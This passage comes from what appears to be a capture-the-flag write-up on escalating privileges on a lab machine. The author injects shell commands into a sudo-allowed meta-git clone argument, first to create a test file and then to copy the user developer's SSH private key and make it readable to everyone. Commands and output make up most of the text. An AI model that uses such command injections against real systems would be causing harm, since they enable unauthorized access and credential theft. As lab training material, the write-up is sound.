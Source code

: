 We're able to run `/usr/local/bin/meta-git` as user `developer`, seems fitting and what we should use to pivot.
Reading about `meta-git` there is a `RCE` due to [lack of input formating](https://hackerone.com/reports/728040). 

Lets try a simple PoC and create a file named `test`:
```
gbyolo@faculty:/dev/shm$ ls -al
total 0
drwxrwxrwt  3 root root   60 Aug 26 10:41 .
drwxr-xr-x 18 root root 3940 Aug 26 08:00 ..
drwx------  4 root root   80 Aug 26 08:00 multipath

gbyolo@faculty:/dev/shm$ sudo -u developer /usr/local/bin/meta-git clone 'exploit.se||touch test'
meta git cloning into 'exploit.se||touch test' at exploit.se||touch test

exploit.se||touch test:
fatal: repository 'exploit.se' does not exist
exploit.se||touch test ✓
(node:8010) UnhandledPromiseRejectionWarning: Error: ENOENT: no such file or directory, chdir '/dev/shm/exploit.se||touch test'
    at process.chdir (internal/process/main_thread_only.js:31:12)
    at exec (/usr/local/lib/node_modules/meta-git/bin/meta-git-clone:27:11)
    at execPromise.then.catch.errorMessage (/usr/local/lib/node_modules/meta-git/node_modules/meta-exec/index.js:104:22)
    at process._tickCallback (internal/process/next_tick.js:68:7)
    at Function.Module.runMain (internal/modules/cjs/loader.js:834:11)
    at startup (internal/bootstrap/node.js:283:19)
    at bootstrapNodeJSCore (internal/bootstrap/node.js:623:3)
(node:8010) UnhandledPromiseRejectionWarning: Unhandled promise rejection. This error originated either by throwing inside of an async function without a catch block, or by rejecting a promise which was not handled with .catch(). (rejection id: 1)
(node:8010) [DEP0018] DeprecationWarning: Unhandled promise rejections are deprecated. In the future, promise rejections that are not handled will terminate the Node.js process with a non-zero exit code.

gbyolo@faculty:/dev/shm$ ls -al
total 0
drwxrwxrwt  3 root      root       100 Aug 26 11:00 .
drwxr-xr-x 18 root      root      3940 Aug 26 08:00 ..
-rw-rw-r--  1 developer developer    0 Aug 26 11:00 exploit.se
drwx------  4 root      root        80 Aug 26 08:00 multipath
-rw-rw-r--  1 developer developer    0 Aug 26 11:00 test
```

Now weaponize and steal `id_rsa`:
```bash
gbyolo@faculty:/dev/shm$ sudo -u developer /usr/local/bin/meta-git clone 'exploit.se||cp /home/developer/.ssh/id_rsa . && chmod 777 id_rsa'
meta git cloning into 'exploit.se||cp /home/developer/.ssh/id_rsa . && chmod 777 id_rsa' at id_rsa . && chmod 777 id_rsa

id_rsa . && chmod 777 id_rsa:
fatal: destination path 'exploit.se' already exists and is not an empty directory.
chmod: changing permissions of '.': Operation not permitted
id_rsa . && chmod 777 id_rsa: command 'git clone exploit.se||cp /home/developer/.ssh/id_rsa . && chmod 777 id_rsa id_rsa . && chmod 777 id_rsa' exited with error: Error: Command failed: git clone exploit.se||cp /home/developer/.ssh/id_rsa . && chmod 777 id_rsa id_rsa . && chmod 777 id_rsa
(node:8146) UnhandledPromiseRejectionWarning: Error: ENOENT: no such file or directory, chdir '/dev/shm/id_rsa . && chmod 777 id_rsa'
    at process.chdir (internal/process/main_thread_only.js:31:12)
    at exec (/usr/local/lib/node_modules/meta-git/bin/meta-git-clone:27:11)
    at execPromise.then.catch.errorMessage (/usr/local/lib/node_modules/meta-git/node_modules/meta-exec/index.js:104:22)
    at process._tickCallback (internal/process/next_tick.js:68:7)
```